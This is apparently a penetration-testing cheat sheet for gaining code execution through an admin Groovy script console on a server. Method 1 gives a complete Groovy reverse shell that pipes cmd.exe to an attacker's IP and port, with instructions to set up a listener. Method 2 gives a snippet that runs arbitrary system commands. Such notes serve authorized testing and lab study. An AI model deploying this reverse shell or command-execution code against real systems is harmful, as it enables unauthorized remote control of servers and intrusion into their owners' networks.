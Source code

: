 - - -
## Method 1 : ( Rev Shell )

- First you have take **admin** access.
-  Go to [http://example.com/script](http://example.com/script)
- Here you can type in an **<mark style="background: #FF5582A6;">arbitrary Groovy script</mark>** and execute it on the server.
```groovy
String host="10.8.0.239";  
int port=8044;  
String cmd="cmd.exe";  
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

- Change the **host's** value with your IP. and Set-up a listner. and have a shell.


- - - 
## Method 2 : (Command Execution )

Use This groovy script to execute direct commands from the script console.
-  First you have take **admin** access.
-  Goto [http://example.com/script](http://example.com/script)
-  Change the **ipconfig** with **your command**.
```Groovy
def sout = new StringBuffer(), serr = new StringBuffer()  
def proc = 'ipconfig'.execute()  
proc.consumeProcessOutput(sout, serr)  
proc.waitForOrKill(1000)  
println "out> $sout err> $serr"
```

